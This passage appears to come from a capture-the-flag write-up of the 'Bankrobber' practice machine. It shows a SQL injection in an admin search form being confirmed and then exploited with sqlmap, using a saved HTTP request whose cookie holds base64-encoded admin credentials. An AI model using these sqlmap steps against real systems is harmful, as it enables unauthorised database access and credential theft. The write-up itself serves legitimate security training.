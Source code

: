 The backdoorchecker is only accessible from the localhost because it returns the following message when I try any commands: `It's only allowed to access this function from localhost (::1). This is due to the recent hack attempts on our server.`

The search function contains an obvious SQL injection since I get the following error after sending a single quote: `There is a problem with your SQL syntax`

This should be easy to exploit with sqlmap.

I'll save one of the POST request from the search field in a `search.req` file:

```
POST /admin/search.php HTTP/1.1
Host: bankrobber.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bankrobber.htb/admin/
Content-type: application/x-www-form-urlencoded
Content-Length: 6
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close
```

Then I run `sqlmap -r search.req` to start testing for injection points. As expected it quickly finds the injection point:

![](/assets/images/htb-writeup-bankrobber/sql1.png)

## Exploring with sqlmap

First I'll check which user the webapp is running as on the MySQL server: `sqlmap -r search.req --current-user`

```
current user: 'root@localhost'
```
